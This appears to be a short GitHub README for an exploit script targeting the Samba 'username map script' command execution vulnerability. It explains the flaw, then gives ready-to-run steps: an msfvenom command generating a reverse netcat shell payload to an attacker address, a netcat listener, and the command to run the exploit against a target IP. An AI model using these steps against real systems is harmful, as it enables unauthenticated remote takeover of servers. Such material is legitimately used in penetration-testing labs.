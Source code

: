 # Samba "username map script" Command Execution 

This module exploits a command execution vulnerability in Samba versions 3.0.20 through 3.0.25rc3 when using the non-default "username map script" configuration option. By specifying a username containing shell meta characters, attackers can execute arbitrary commands. No authentication is needed to exploit this vulnerability since this option is used to map usernames prior to authentication! 

1. Create Shellcode
```
msfvenom -p cmd/unix/reverse_netcat LHOST=10.10.14.56 LPORT=5555 -f python
```

2. Netcat listner
```
nc -nlvp 5555
```

3. run the script
```
python3 smbusermap.py <Target IP>
```
![image](https://user-images.githubusercontent.com/66146701/165831258-de3acca8-4d24-4989-b7cd-610a01966979.png)


